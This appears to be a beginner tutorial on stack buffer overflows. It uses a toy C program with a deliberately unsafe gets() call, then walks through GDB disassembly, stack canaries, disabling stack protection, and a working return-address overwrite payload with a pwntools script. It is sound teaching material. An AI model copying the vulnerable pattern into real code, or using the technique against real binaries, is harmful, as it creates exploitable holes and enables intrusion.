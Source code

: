 # Buffer Overflow
The first module will be about the Buffer Overflow vulnerability, due to its low level of complexity. Lets take a look a the example:

```C
#include <stdio.h>

void secret_func() {
        printf("Shhhhh my secret is...\n");
}

int main() {
        char buf[20];
        printf("I'll tell mine if you tell me yours!\nMy secret is: ");
        gets(buf);

        return 0;
}
```

If we were to compile this example:

```
$ gcc ./example2.c -o example2
[...]
example2.c:(.text+0x50): warning: the `gets' function is dangerous and should not be used.
```

The compiler already warns us about the use of a unsafe function call. This warning is because the `gets` function reads input from the `stdin` until the escape character is typed (ENTER). Lets run the executable:

```
$ ./example

I'll tell mine if you tell me yours!
My secret is: <here you type your secret>
```

For instance, if we type `i like cupcakes` nothing happens. That's because the buffer, in which the string is stored, is 20-byte long so if we type any string that is up to 20 bytes of length, nothing new happens. Lets use `python` to print a 22-byte long string, which we expect to cause some abnormal behavior in our program:

```
$ python3 -c "print(22 * 'A')"
AAAAAAAAAAAAAAAAAAAAAA
```
Then, lets use this 22-byte long string as input in our program:

```
$ ./example2
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAA
```

As we can see, still nothing new happened. Why? Lets check out our binary in GDB:

```
$ gdb ./example2
```

As we want to understand what's happening, lets dissasemble our `main` function using the commanda `disas main` in gdb. The output in probably difficult to understand, that's because the assembly instrucitons are shown in AT&T syntax. In order to change to Intel syntax, we type `set disassembly-flavor intel`. Now the disassemble of main is clearer:

```
0x00000000000011c0 <+0>:     endbr64
0x00000000000011c4 <+4>:     push   rbp
0x00000000000011c5 <+5>:     mov    rbp,rsp
0x00000000000011c8 <+8>:     sub    rsp,0x20
[...]
0x0000000000001202 <+66>:    mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000001206 <+70>:    xor    rdx,QWORD PTR fs:0x28
0x000000000000120f <+79>:    je     0x1216 <main+86>
0x0000000000001211 <+81>:    call   0x1090 <__stack_chk_fail@plt>
0x0000000000001216 <+86>:    leave
0x0000000000001217 <+87>:    ret
```
The first instruction (up to <+8>) create the `stack-frame` of our function `main`, which represents the place in memory where `main` can store its local variables. As we can see, initially `rbp` is pushed into the stack (which means that the address that rbp was pointing to is pushed into the stack), then `rbp` receives `rsp` (now rbp is pointing to the same address as rsp). Finally, we subtract `0x20` bytes from `rsp` (`rsp` now points to an address 32 bytes higher than the previous).

```
+------------------+
|                  | <- RSP (address X - 32bytes)
|                  |
|      MAIN'S      |
|    STACK-FRAME   |
|                  |
|                  | 
+------------------+
|   OLD RBP VALUE  | <- RBP (address X)
+------------------+
|   OLD RIP VALUE  |
+------------------+
```

Now that we know that the stack-frame is 32 bytes long, try writing 31 A's in the input. You probably got the following error:

```
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
Aborted
```

So, if our stack-frame has 32 bytes of space, why does 31 bytes makes the program stop? Well now comes the seconda part of the disassemble of function `main` showed previously. The OS puts protections into binaries to make then exploit-safe and one of these protections is the `Stack Canary`: basically the OS puts some values on certain locations of our stack-frame and at the end of execution it compares to see if they are still there. When we overflowed the buffer we unintetionally overwrote the stack-canary value, so when the program reached the comparison instruction and the value wasn't the same, it signalled that the stack's integrity had been compromised. As we can see, the program compares the value stored in `[rbp-0x8]`, so if our stack has 32 bytes, but on the eighth is located the stack-canary, we have only 24 bytes to use. Now try typing 24 bytes on the input and you'll see that the program finishes correctly, whereas 25 bytes won't.

But why 32 bytes? That's due to the `stack allignment`: the value stored by `RSP` follows a pattern of increamenting based on a multiple of the size of a `word` in your OS (a performance improvement), which means that, as we are operating in a 64bit machine and a word is equal to 8 bytes, the stack alligment is 16 bytes. 20 is not a multiple of 16, so it has allocated 32 bytes.

In order to be able to exploit this program we must compile it with the GCC flag `-fno-stack-protector`, which will remove the stack-canary from our program. Compile and then try sending 32 bytes as input, you'll see that tha program finishes correctly.

```
$ gcc ./example2.c -o ./example2 -fno-stack-protector
```

Now try sending A LOT of bytes as input:

```
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

In contrast with the initial attempts to exploit the program where the OS realized that the "stack was smashed", now our program finishes with a `Segmentation Fault`. This indicates that we tried to access a region in memory which we didn't have permission to. Lets take a closer look using GDB: disassemble main and set a break point on the `ret` instruction. Then, try sending this payload `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM` as input: the program crashes because we overflowed the stack up to the point where we overwrote both the `RBP` registers (check out its value using `info registers`) and the `RIP` register (remember the previous layout of the stack). As we can see, we tried to return to address `0x4c4c4c4c4b4b4b4b`, but that address is not in the text segment of memory, therefore we are not allowed to execute whatever instructions are on that address. In ASCII, character with hex code `4b` is `K` an `4c` is `L`, so  this means that whatever we put in the positions of K and L will be executed. 

So, why don't we try putting `secret_func`'s address? In order to do that, we need to know where that function will be, which means that we'll have to know the address during execution on GDB. Again, lets load our program on GDB and use the command `start` and the `disas secret_func`:

```
(gdb) disas secret_func
Dump of assembler code for function secret_func:
   0x0000555555555189 <+0>:     endbr64
   0x000055555555518d <+4>:     push   rbp
   0x000055555555518e <+5>:     mov    rbp,rsp
   [...]
   0x000055555555519e <+21>:    pop    rbp
   0x000055555555519f <+22>:    ret
```

Now we know that `secret_func` will be place on `0x0000555555555189` address. Due to little endianness we need to write that address reversed. So our payload would look like:

```
echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x89\x51\x55\x55\x55\x55" > payload.txt
```

And passing the payload to our program would produce:

```
./example2 < payload.txt
My secret is: Shhhhh my secret is...
Segmentation fault
```

Boooooom we just redirected the flow of execution, that is, `main` was supposed to return somewhere else but we overwrote the return address with `0x555555555189` which is the address of `secret_func`. Therefore when main returned, the instruction pointer (which has the instructions to be executed) executed the instructions of `secret_func`!!!

If we were to do the same but using pwntools, the script would be like:

```python
from pwn import *

p = process("./example2")

p.sendline(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x89\x51\x55\x55\x55\x55')

p.interactive()
```
















